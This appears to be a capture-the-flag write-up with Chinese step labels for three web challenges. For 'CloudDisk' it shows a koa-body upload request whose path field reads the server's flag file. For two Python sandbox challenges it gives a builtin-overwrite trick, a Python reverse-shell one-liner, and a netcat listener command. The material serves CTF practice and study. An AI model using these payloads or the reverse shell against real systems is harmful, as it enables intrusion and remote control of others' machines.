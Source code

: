 # Web

## CloudDisk

```
https://github.com/dlau/koa-body/issues/75

http://120.79.1.217:7777/uploadfile

{
	"files": {
		"file": {
			"name": "jankincai",
			"path": "./flag"
		}
	}
}

Upload success ~, your fileId is here：3484b276cc6038b0378ddcf65880b04f

http://120.79.1.217:7777/downloadfile/3484b276cc6038b0378ddcf65880b04f
```

## pysandbox

1. 生成字符集

```python
ss = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

vlist = []

for v in ss:
    if v not in vlist:
        print(v * 50, end="")
        vlist.append(v)


```

2. 覆盖ord

```python
cmd = '__builtins__.__dict__[ord.__name__]=request.authorization.username.count'
```

3. 反弹shell

服务器：nc -lvvp port

```python
cmd = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

4. 获取flag

```bash
cat flag
```

## pysandbox2

前三步和pysandbox一样

4. 获取flag

```bash
cd /
./readflag
```